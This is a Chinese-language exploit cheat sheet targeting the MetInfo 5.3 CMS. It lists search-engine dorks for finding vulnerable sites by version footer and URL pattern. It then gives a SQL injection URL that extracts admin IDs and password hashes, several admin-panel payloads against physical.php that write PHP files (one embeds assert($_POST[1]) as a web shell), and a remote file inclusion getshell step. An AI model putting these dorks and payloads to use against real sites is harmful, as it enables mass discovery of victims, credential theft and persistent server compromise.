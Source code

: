 ### 采集

intext:Powered by MetInfo 5.3.19 2008-2018
intext:powered by metinfo 5.3.5 2008-2018 MetInfo Inc
intext:Powered by MetInfo 5.3.17 2008-2018
intext:Powered by MetInfo 5.3.18 2008-2018
intext:Powered by MetInfo 5.3.15 2008-2018
intext:Powered by MetInfo 5.3.12 2008-2018
intext:Powered by MetInfo 5.3.11 2008-2018
intext:Powered by MetInfo 5.3.14
lang=cn,en,tw,tc,
inurl:/about/show.php?lang=cn&id=19
inurl:/about/show.php?lang=cn&id=98
inurl:/download/download.php?lang=&class2=
inurl:news/news.php?lang=&class2=
inurl:/about/show.php?lang=tc&id=
inurl:product/product.php?lang=cn&class2=
inurl:job/showjob.php?lang=tc&id=
inurl:download/showdownload.php?lang=&id=
inurl:case/showimg.php?lang=&id=
inurl:/index.php?lang=&pcok=wap&met_mobileok=
inurl:product/showproduct.php?lang=&id
inurl:index.php?lang=&met_mobileok=
inurl:message/message.php?lang=
inurl:link/addlink.php?lang=
inurl:job/cv.php?lang=&selectedjob=
inurl:/news/shownews.php?lang=cn&id=

静态采集
inurl:news/-cn.html
inurl:news/news.html
inurl:about/contact.html
inurl:solution/list--cn.html
inurl:case/list-115-cn.html
inurl:news/list-5-cn.html
inurl:product1/-cn.html
inurl:product/product___.html
inurl:product/showproduct.html
inurl:news/shownews.html
inurl:/about/19-cn.html 公司简介
inurl:/about/110-cn.html 合作伙伴
inurl:/about/98-cn.htm 联系我们
inurl:/news/list-4-cn.html 公司动态

### 注入 EXP

```
http://127.0.0.1:82/MetInfo5.3/member/login.php/aa'UNION SELECT (select concat(admin_id,0x23,admin_pass) from met_admin_table limit 1),2,3,4,5,6,1111,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29%23/aa
```

### 后台 getshell

1. MetInfo 5.3.19 前的版本

```
/app/physical/physical.php?action=op&op=3&valphy=test|xxx/xxx.php&address=../upload/201807/1531396662310757.jpg
```

1. 通杀 MetInfo 5.3 所有版本

```
app/physical/physical.php?action=op&op=3&valphy=123|xxx/index.php|123;assert($_POST[1]);?>/*
```

1. MetInfo 5.3.19 版本

`app/physical/physical.php?action=op&op=3&valphy=test|/..\upload\file\1506587082.ico/..\..\..\wwwroot\about\xxx.php|1`
wwwroot 是 index.php 上级目录，wwwroot 查找方式是网站根目录加 install/phpinfo.php,ico 图片路径的正反斜杠要和一下一直，这个方法只实用 Windows 系统

1. 远程文件包含 getshell

```
app/physical/physical.php?action=do&met_host=127.0.0.1`
访问:`app/physical/dlappfile.php
```

**参考文章:**
`http://0day5.com/archives/4193/`
`https://blog.csdn.net/qq_38780085/article/details/82220557`
`https://bbs.ichunqiu.com/thread-29686-1-3.html`
